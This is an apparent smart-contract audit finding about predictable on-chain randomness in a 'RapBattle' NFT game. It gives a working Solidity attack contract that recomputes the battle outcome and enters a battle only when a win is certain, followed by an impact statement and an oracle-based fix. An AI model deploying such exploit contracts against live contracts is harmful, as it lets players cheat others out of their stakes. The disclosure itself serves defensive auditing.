 ## Vulnerability Details
Here is a crude implementation of a smart contract that could be used to predict the randomness. Note that we are assuming that the _credBet amount is 0. The point of this contract is just to showcase how the randomness can be gamed. Also in a production environment, this contract should be Ownable to prevent others from using your contract. 



    contract AttackContract is IERC721Receiver{  
        RapBattle rapBattle;
        OneShot oneShot;
        
        constructor(address _rapBattle, address _oneShot){
            rapBattle = RapBattle(_rapBattle);
            oneShot = OneShot(_oneShot);
        }

        //Mint a rapper for the smart contract
        function mintRapper() external{
            oneShot.mintRapper();
        }

        //Returns a boolean signifying if the contract battled or not
        function BattleOnlyIfWin(uint256 tokenId) external returns(bool){
            uint256 defenderTokenId = rapBattle.defenderTokenId();
            uint256 defenderRapperSkill = rapBattle.getRapperSkill(defenderTokenId);
            uint256 totalBattleSkill=defenderRapperSkill + rapBattle.getRapperSkill(tokenId);

            uint256 random =
                uint256(keccak256(abi.encodePacked(block.timestamp, block.prevrandao, address(this)))) % totalBattleSkill;

            if(random <= defenderRapperSkill){
                return false;
            }else{
                oneShot.approve(address(rapBattle), tokenId);
                rapBattle.goOnStageOrBattle(tokenId, 0);
                return true;
            }
        }

        // Implementing IERC721Receiver so the contract can accept ERC721 tokens
        function onERC721Received(address, address, uint256, bytes calldata) external pure override returns (bytes4) {
            return IERC721Receiver.onERC721Received.selector;
        }
    }

## Impact
A user can precalculate the result of the random variable and only choose to battle when they are guaranteed to win. 

## Tools Used
Foundry
## Recommendations
Use an Oracle to provide randomness to the smart contract. 
		